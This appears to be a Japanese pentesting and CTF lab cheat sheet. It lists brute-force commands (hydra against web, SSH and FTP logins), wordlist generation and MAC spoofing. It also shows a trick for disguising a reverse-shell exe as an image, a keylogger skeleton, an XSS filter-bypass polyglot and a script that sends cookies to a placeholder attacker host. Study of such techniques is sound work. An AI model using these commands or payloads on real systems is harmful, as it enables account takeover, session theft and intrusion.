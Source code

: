 # ユーティリティ

## ホスト検索

```shell
sudo netdiscover -r 192.168.11.0/24

# nmapでも探せる
nmap -sn 192.168.11.0/24
```

## hydra

```shell
# Web
hydra $TARGET http-post-form "/owaspbricks/login-3/index.php:username=^USER^&password=^PASS^&Login=submit:Wrong user name or password." -L http_default_users.txt -P http_default_pass.txt

# SSH
hydra -l frank -P /usr/share/wordlists/rockyou.txt $TARGET ssh

# FTP
hydra -l mark -P /usr/share/wordlists/rockyou.txt $TARGET ftp

# デフォルト以外のポート指定、詳細出力、16スレッド、デバッグ情報
-s <port> -V -t 16 -d
```

## キーワードでファイル検索

-I でバイナリファイルを除き、/dev/null でファイル名も出力されるようにしている

```shell
find . -type f -exec grep -i -I "ABCDE" {} /dev/null \;
```

## ワードリスト生成

### ワードリストの場所

```shell
ls /usr/share/wordlists
```

### rockyou.txt から特定文字列長のリストを作る

```shell
grep -x '.\{4\}' /usr/share/wordlists/rockyou.txt > rockyou_4len.txt
```

### crunch

様々なフォーマット指定を駆使してワードリストを生成。オプション多数、man 参照。  
（例）5 文字のパスワードリストを生成

```shell
crunch 5 5 > word.txt
```

## cupp

インタラクティブにパスワードリストを生成。名前や誕生日などの情報も考慮する。  
https://github.com/Mebus/cupp

## MAC アドレス偽装（詳細は man）

```shell
macchanger -A <interface name>
```

## wine

Linux 上で exe を実行できる環境を作る

```shell
sudo apt install wine
wine test.exe
```

## バイナリエディタ

```shell
hexeditor <file>
```

## scapy

インタラクティブなパケット操作ツール

```shell
# case sensitive
ls(ARP)
```

## netcat

```shell
# 一方のターミナルでリッスン
nc -lvp 6666

# もう一方のターミナルから接続。ポート指定方法が非対称なことに注意
nc localhost 6666
```

## ターミナル分割

```shell
tmux
```

## pyinstaller

Linux 上で python コードを exe として保存。データとして画像を含む

```shell
wine pyinstaller.exe --add-data "image.jpg;." --onefile --noconsole --icon icon.ico reverse_shell.py
```

exe を実行したとき、画像を開く（画像をダブルクリックしたように見せるための小細工）

```python
import sys
import os

def get_resource_path(filename):
    # PyInstallerで実行中かどうかを判定
    if hasattr(sys, '_MEIPASS'):
        # リソースの実行時パスを取得
        return os.path.join(sys._MEIPASS, filename)
    else:
        # 通常のスクリプト実行時
        return os.path.join(os.path.abspath("."), filename)

# リソースファイルのパスを取得
image_path = get_resource_path("image.jpg")

# 例: 画像を開く (Pillowなどを使う場合)
from PIL import Image
img = Image.open(image_path)
img.show()

# フォルダへの保存や、スタートアップのレジストリ登録などで永続化
```

## キーロガー

pynput ライブラリの例

```python
import pynput.keyboard

def process_keys(key):
    pass

keyboard_listener = pynput.keyboard.Listener(on_press=process_keys)
with keyboard_listener:
    keyboard_listener.join()
```

## wpscan

WordPress 専用のセキュリティスキャナ

```shell
wpscan --url 192.168.11.16 --passwords password.txt --usernames elliot
```

## メタ情報

```shell
exiftool <filename>
```

## SecLists

```shell
apt -y install seclists
head /usr/share/wordlists/seclists/Usernames/Names/names.txt
```

## XSS

### Polyglots

XSS の様々なフィルターをバイパスする文字列

```text
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e
```

### Cookie を送る

```javascript
<script>fetch('http://<LHOST>:<PORT>?cookie=' + btoa(document.cookie) );</script>
```

## マルウェア関係

### Floss

exe ファイルからエンコードされた文字列を抽出してレポート出力する  
https://github.com/mandiant/flare-floss

```powershell
floss.exe malware.exe | Out-File malstring.txt
```

## ログ解析

### JQ

JSON をクエリできるツール  
次の例では、column コマンドに渡して表に整形している

```shell
$ jq -r '["Event_Time", "Event_Name", "User_Name", "Bucket_Name", "Key", "Source_IP"],(.Records[] | select(.eventSource == "s3.amazonaws.com" and .requestParameters.bucketName=="wareville-care4wares") | [.eventTime, .eventName, .userIdentity.userName // "N/A",.requestParameters.bucketName // "N/A", .requestParameters.key // "N/A", .sourceIPAddress // "N/A"]) | @tsv' cloudtrail_log.json | column -t
```

